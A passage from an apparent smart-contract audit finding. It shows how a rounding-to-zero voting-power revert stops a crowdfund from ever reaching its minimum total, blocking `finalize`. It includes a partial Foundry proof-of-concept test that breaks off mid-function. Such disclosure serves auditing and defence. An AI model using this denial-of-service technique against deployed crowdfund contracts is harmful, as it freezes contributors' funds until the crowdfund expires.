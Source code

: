 7. This line is hit:

```js
           votingPower = (amount * exchangeRateBps) / 1e4;
```

Calculating this we get: `(1 * 0.5e4) / 1e4 = 0.5` which rounds down to `0`.

8. Then we hit the next line:

```js
           if (votingPower == 0) revert ZeroVotingPowerError();
```

We will always force a revert here, no matter what original amount is sent, since we refund the excess.

9. A host attempts to call `finalize`, but it reverts because of this:

```js
            // Check that the crowdfund has reached its minimum goal.
            uint96 minTotalContributions_ = minTotalContributions;
            //       10e18 - 1              10e18
            if (totalContributions_ < minTotalContributions_) {
                revert NotEnoughContributionsError(totalContributions_, minTotalContributions_);
            }
```

Keep in mind that `minTotalContributions`, `maxTotalContributions` and `exchangeRateBps` cannot be changed after creation of the crowdfund. Users will be able to call `refund` only after the crowdfund is `Lost`.

The DoS will last as long as the `duration` of the crowdfund. If `duration = 14 days`, then the users will recover their funds after 14 days.

Note that if `emergencyDisabled = true`, the DAO won't be able to retrieve their funds through `emergencyExecute` and the users will have to wait until the crowdfund is lost.

### Proof of Concept

Paste the following inside `test/crowdfund/InitialETHCrowdfund.t.sol` in contract `InitialETHCrowdfundTest` and run `forge test --mt test_dosOnFinalizationWhenReachingTheMaxTotalContributions -vvvv`:

```js
function test_dosOnFinalizationWhenReachingTheMaxTotalContributions() public {
        InitialETHCrowdfund crowdfund = _createCrowdfund(
            CreateCrowdfundArgs({
                initialContribution: 0,
                initialContributor: payable(address(0)),
                initialDelegate: address(0),
                minContributions: 0, 
                maxContributions: type(uint96).max,
                disableContributingForExistingCard: false,
                minTotalContributions: 10e18, // note the two values
                maxTotalContributions: 10e18, 
                duration: 7 days,
                exchangeRateBps: 0.5e4, //note the exchange rate
                fundingSplitBps: 0,
                fundingSplitRecipient: payable(address(0)),
                gateKeeper: IGateKeeper(address(0)),
                gateKeeperId: bytes12(0)
            })
        );
        Party party = crowdfund.party();

        // Alice contributes
        address alice = _randomAddress();
        vm.deal(alice, 10_000e18);
        vm.prank(alice);
        crowdfund.contribute{value: 5e18}(address(alice), "");
```
